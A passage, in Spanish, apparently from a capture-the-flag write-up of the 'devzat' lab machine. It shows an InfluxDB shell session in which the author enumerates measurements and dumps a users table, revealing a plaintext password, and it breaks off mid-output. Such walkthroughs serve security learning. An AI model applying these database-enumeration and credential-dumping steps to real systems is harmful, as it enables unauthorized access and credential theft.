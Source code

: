 ```bash
```

Seleccionamos la base de datos 1 y tratando de inyectar un comando vemos que las instrucciones disponibles son queries. Enumerando localizamos la tabla `users` y listando su contenido conseguimos unas credenciales

```bash
[admin@127.0.0.1] Database: 1

Starting InfluxDB shell - .back to go back
[admin@127.0.0.1/devzat] $ whoami
{
    "error": "error parsing query: found whoami, expected SELECT, DELETE, SHOW, CREATE, DROP, EXPLAIN, GRANT, REVOKE, ALTER, SET, KILL at line 1, char 1"
}
[admin@127.0.0.1/devzat] $ SHOW
{
    "error": "error parsing query: found DATABSES, expected CONTINUOUS, DATABASES, DIAGNOSTICS, FIELD, GRANTS, MEASUREMENT, MEASUREMENTS, QUERIES, RETENTION, SERIES, SHARD, SHARDS, STATS, SUBSCRIPTIONS, TAG, USERS at line 1, char 6"
}
[admin@127.0.0.1/devzat] $ SHOW FIELD
{
    "error": "error parsing query: found EOF, expected KEY, KEYS at line 1, char 12"
}
[admin@127.0.0.1/devzat] $ SHOW MEASUREMENTS 
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
[admin@127.0.0.1/devzat] $ SELECT * FROM "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
```